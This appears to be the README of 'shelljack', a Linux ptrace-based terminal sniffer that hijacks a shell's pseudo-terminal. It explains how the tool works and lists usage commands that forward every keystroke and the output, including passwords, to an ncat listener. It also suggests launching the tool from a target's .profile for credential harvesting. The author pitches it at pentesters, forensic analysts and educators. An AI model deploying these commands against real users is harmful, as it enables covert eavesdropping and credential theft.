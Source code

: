 # shelljack #

_shelljack_ is a [Linux](http://en.wikipedia.org/wiki/Linux) [terminal](http://en.wikipedia.org/wiki/Computer_terminal) sniffer.

**What is a "terminal sniffer"?**

A terminal sniffer is a piece of software that inspects user [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but in addition to reporting all of the keystrokes put into the terminal, _shelljack_ also reports all of the data returned back out through the terminal.

**Is it a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ works entirely in [user space](http://en.wikipedia.org/wiki/User_space).

**What is "shelljacking"?**

This is the term I use to describe a very specific type of terminal sniffing attack. _shelljack_ performs a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). It will happily target any process, but it is designed to be used against a [session leader](http://linux.die.net/man/7/credentials), which usually means a users [shell](http://en.wikipedia.org/wiki/Unix_shell). It's also important to note that a successful shelljacking means you are now embedded in the traffic flow between user and their shell. *You will be sniffing all of the traffic down the line, including child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't "[hacking](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29)". There are no exploits here. _shelljack_ takes advantage of Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that, while often not well understood, is completely legitimate. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a "[sploit](http://en.wikipedia.org/wiki/Sploit)", it is a very handy tool designed to empower [pentesters](http://en.wikipedia.org/wiki/Pentester), [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), and educators.

**Do I need to be root to use it?**

No. You need "appropriate permissions" in order for it to work. That means you will either need to be root, or the uid of the target process. 

**When would I ever need this?**

* As a pentester who has gained execution as a user, you can now shelljack that user for further reconnaissance and credential harvesting.
* As a forensic analyist, you can eavesdrop on the user who is the target of your investigation (after you've recieved the appropriate authority to do so from the heads of Security, Legal, and HR, of course.)
* As a sysadmin, or other educator, to publicly demonstrate why sane file permissions are important. 

**How does it work?**

_shelljack_ is a [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses ptrace to insert itself between the shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**Tell me more of this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

[ptrace](http://en.wikipedia.org/wiki/Ptrace):
ptrace is the debugging interface provided by the Linux kernel. It's wonderful at forcing you to *really* understand the inner workings of a Linux process if you try to use it. The best intro I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

[tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29):
A solid understanding of tty fundamentals is necessary to fully understand and leverage the [command line](http://en.wikipedia.org/wiki/Command_line). This is also a needed skill set for understanding shelljacking. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Since _shelljack_ uses the Linux ptrace interface to inject syscalls into a target process using their assembly form, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage # 

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Netcat](http://en.wikipedia.org/wiki/Netcat) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use anything that [the machine can route](http://linux.die.net/man/3/getaddrinfo).)

Let's do a demo. I'll be running [tty](http://linux.die.net/man/1/tty) in the examples to demonstrate which terminal I'm running various commands in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch shelljack against the target pid:

	empty@monkey:~/code/shelljack$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

Back at the listener, you will now see all the I/O in real time as the user interacts with the shelljacked shell. For further evidence of this, lets go examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It's now in place to mitm the traffic, happily forwarding you a copy of everything it sees, including the input which normally wouldn't be "[echoed](http://linux.die.net/man/1/stty)" to the terminal (e.g. passwords).

Also note, _shelljack_ was designed with the ability to attack the shell that is calling it. This makes it ideal for launching it out of the targets login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

I've written two supporting libraries to help abstract the heavy lifting and are needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process.

